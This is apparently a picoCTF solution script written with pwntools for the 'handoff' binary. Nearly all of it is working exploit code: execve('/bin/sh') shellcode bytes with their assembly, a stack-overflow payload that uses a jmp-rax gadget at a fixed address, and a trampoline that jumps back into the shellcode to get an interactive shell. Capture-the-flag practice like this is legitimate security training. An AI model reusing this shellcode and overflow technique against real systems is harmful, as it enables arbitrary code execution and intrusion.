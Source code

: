 ```python
from pwn import *

LINK = "shape-facility.picoctf.net"
PORT = int(sys.argv[1]) if len(sys.argv) > 1 else None
DEBUG = bool(int(sys.argv[2])) if len(sys.argv) > 2 else True

e = context.binary = ELF("./handoff")

if DEBUG:
    p = process("./handoff")
else:
    p = remote(LINK, PORT)

"""
https://systemoverlord.com/2016/04/27/even-shorter-shellcode.html
BITS 64

xor esi, esi
push rsi
mov rbx, 0x68732f2f6e69622f
push rbx
push rsp
pop rdi
imul esi
mov al, 0x3b
syscall
"""

# First, add a recipient with our main shellcode
main_shellcode = b"\x31\xf6\x56\x48\xbb" +
                 b"\x2f\x62\x69\x6e\x2f" +
                 b"\x2f\x73\x68\x53\x54" +
                 b"\x5f\xf7\xee\xb0\x3b" +
                 b"\x0f\x05"
p.sendlineafter(b"app", b"1")
p.sendlineafter(b"name: ", main_shellcode)

"""
subq $724, %rax
push %rax
ret
"""

jump_shellcode = b"\x90\x90\x48\x2d\xd4" +
                 b"\x02\x00\x00\x50\xc3"

# Pad to reach the return address (20 bytes padding)
# Then use the jmp rax gadget (0x40116c) to the feedback buffer and then finally jmp to shellcode using rax-724
padding = b"\x00" * (20 - len(jump_shellcode))
payload = jump_shellcode + padding + p64(0x40116c)

# Trigger the ROP chain
p.sendlineafter(b"app", b"3")

if DEBUG:
    pause()  # Pause to attach debugger if needed

p.sendlineafter(b": ", payload)

# Get shell
p.interactive()
```